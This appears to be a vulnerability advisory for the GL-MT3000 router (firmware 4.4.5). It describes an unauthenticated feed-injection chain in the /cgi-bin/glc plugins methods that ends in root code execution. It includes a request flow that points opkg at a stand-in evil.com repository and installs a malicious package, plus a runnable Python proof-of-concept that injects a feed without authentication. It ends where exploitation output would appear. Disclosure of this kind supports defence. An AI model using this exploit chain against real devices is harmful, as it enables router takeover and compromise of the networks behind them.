

Submission Date: 2026.5.18
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An unauthenticated configuration injection vulnerability exists in the `/cgi-bin/glc` endpoint via the `plugins.set_config` method of the affected product. The `plugins.so` native plugin at `/usr/lib/oui-httpd/rpc/plugins.so` writes attacker-controlled opkg feed source entries to `/etc/opkg/customfeeds.conf` without URL scheme validation or authentication. When combined with `plugins.update_repository` and `plugins.install_package` (which are also unauthenticated), this enables a complete feed hijacking chain resulting in arbitrary package installation and root code execution.

The reported vulnerable flow is:

```text
Stage 1 — Feed injection:
  Unauthenticated attacker
    -> POST /cgi-bin/glc {"object":"plugins","method":"set_config",
         "args":{"source":[{"name":"attacker","url":"http://evil.com/repo"}]}}
    -> plugins.so writes to /etc/opkg/customfeeds.conf:
         src/gz attacker http://evil.com/repo

Stage 2 — Feed activation:
    -> POST /cgi-bin/glc {"object":"plugins","method":"update_repository",...}
    -> system("opkg update") pulls package list from attacker's server

Stage 3 — Arbitrary code execution:
    -> POST /cgi-bin/glc {"object":"plugins","method":"install_package",
         "args":{"name":["malicious-pkg"]}}
    -> system("opkg install malicious-pkg")
    -> package preinst/postinst scripts execute as root
```

The attack chain exploits three independently accessible methods in `plugins.so`, none of which require authentication:

| Method | Type | Effect |
|--------|------|--------|
| `set_config` | File write | Injects attacker's opkg feed URL into `/etc/opkg/customfeeds.conf` |
| `update_repository` | `system("opkg update")` | Downloads package list from attacker's feed |
| `install_package` | `system("opkg install %s")` | Installs attacker's package; preinst/postinst → RCE |

The source array entries contain `name` and `url` fields with no scheme whitelist, domain validation, or shell metacharacter filtering. The file is written by a root-privileged process accessed through `/cgi-bin/glc` without any session or ACL verification.

Exploit the vulnerability by sending a crafted HTTP request:

```python
#!/usr/bin/env python3
"""PoC: plugins.set_config unauthenticated feed hijack via /cgi-bin/glc"""
import json, ssl, sys, urllib.request

TARGET = sys.argv[1] if len(sys.argv) > 1 else "https://192.168.8.1"

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

def glc(obj, method, args):
    req = urllib.request.Request(f"{TARGET}/cgi-bin/glc",
        data=json.dumps({"object":obj,"method":method,"args":args}).encode(),
        headers={"Content-Type": "application/json"}, method="POST")
    return json.loads(urllib.request.urlopen(req, timeout=10, context=ctx).read())

# 1. Get current feeds
feeds = glc("plugins", "get_config", {})
print(f"[+] current feeds: {json.dumps(feeds)[:300]}")

# 2. Inject attacker feed
injected = {"source": [{"name": "codexproof", "url": "http://127.0.0.1/codexproof"}]}
glc("plugins", "set_config", injected)
print("[+] injected feed: codexproof -> http://127.0.0.1/codexproof")

# 3. Verify
feeds = glc("plugins", "get_config", {})
print(f"[+] verified: {json.dumps(feeds)[:300]}")
```

The exploitation is shown below.


